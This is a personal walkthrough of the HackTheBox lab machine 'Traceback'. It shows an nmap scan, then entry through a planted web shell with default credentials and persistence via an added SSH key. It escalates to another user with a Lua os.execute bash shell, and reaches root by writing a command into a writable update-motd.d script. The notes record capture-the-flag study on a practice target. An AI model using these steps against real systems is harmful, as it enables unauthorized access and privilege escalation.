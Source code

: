 ```yaml
---
attachments: [traceback-port80.png]
title: HackTheBox - Traceback Notes
created: '2020-05-21T10:59:22.213Z'
modified: '2020-05-21T11:20:08.836Z'
---
```


# HackTheBox - Traceback Notes

Machine IP: `10.10.10.181` 


## Nmap Scan

```java
# Nmap 7.80 scan initiated Thu May 21 13:05:58 2020 as: nmap -A -p22,80 -oN initial.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Android 4.2.2 (Linux 3.4) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   206.01 ms 10.10.14.1
2   206.29 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 21 13:06:22 2020 -- 1 IP address (1 host up) scanned in 25.55 seconds

```

## Initial Foothold

Opening http://10.10.10.181 (port 80) gives us a defaced page.

![Image](traceback-port80.png)

The HTML comment says `Some of the best web shells that you might need ;)`

Google the HTML comment and first result will be of a repository containing many web shells, appending all PHP file names gives us result that smevk.php has been used to deface, to login to the webshell (smevk.php),credentials `admin:admin` will work.

There are two users.
1. webadmin
2. sysadmin

Add your SSH key to /home/webadmin/.ssh/ as authorized_keys and login via SSH.

## Horizontal PrivEsc

Use `sudo -l` to check sudo permissions.

```
User webadmin may run the following commands on traceback: 
(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

/home/webadmin/note.txt says

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The `luvit` file in sysadmin's home directory is a lua script.

Run it and execute following command to get shell of sysadmin

`os.execute("/bin/bash -i")`

## PrivEsc to Root

Using LinPeas tells us that /etc/update-motd.d is writable by sysadmin.

Run `echo "cat /root/root.txt" > /etc/update-motd.d/00-header`

Exit out of the shell and SSH again.

The startup message will have the root flag as 00-header is responsible for running those commands when a new login appears.
